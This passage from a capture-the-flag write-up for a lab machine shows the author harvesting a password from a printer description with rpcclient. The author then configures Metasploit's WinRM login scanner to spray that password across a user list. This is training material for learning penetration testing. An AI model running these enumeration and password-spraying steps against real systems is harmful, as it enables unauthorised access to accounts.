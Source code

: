 We get some new users save them `user.list`

On spending some time here and trying different things I got `enumprinters`

```bash
rpcclient $> enumprinters
	flags:[0x800000]
	name:[\\10.10.10.193\HP-MFT01]
	description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]

rpcclient $>
```

We get a password `$fab@s3Rv1ce$1` btu for which user

# Initial Foothold:~$



```bash
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS fuse.htb
RHOSTS => fuse.htb
msf5 auxiliary(scanner/winrm/winrm_login) > set user_file user.list
user_file => user.list
msf5 auxiliary(scanner/winrm/winrm_login) > set password $fab@s3Rv1ce$1
password => $fab@s3Rv1ce$1
msf5 auxiliary(scanner/winrm/winrm_login) > show options

Module options (auxiliary/scanner/winrm/winrm_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DOMAIN            WORKSTATION      yes       The domain to use for Windows authentification
   PASSWORD          $fab@s3Rv1ce$1   no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            fuse.htb         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             5985             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   URI               /wsman           yes       The URI of the WinRM service
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE         user.list        no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host
```

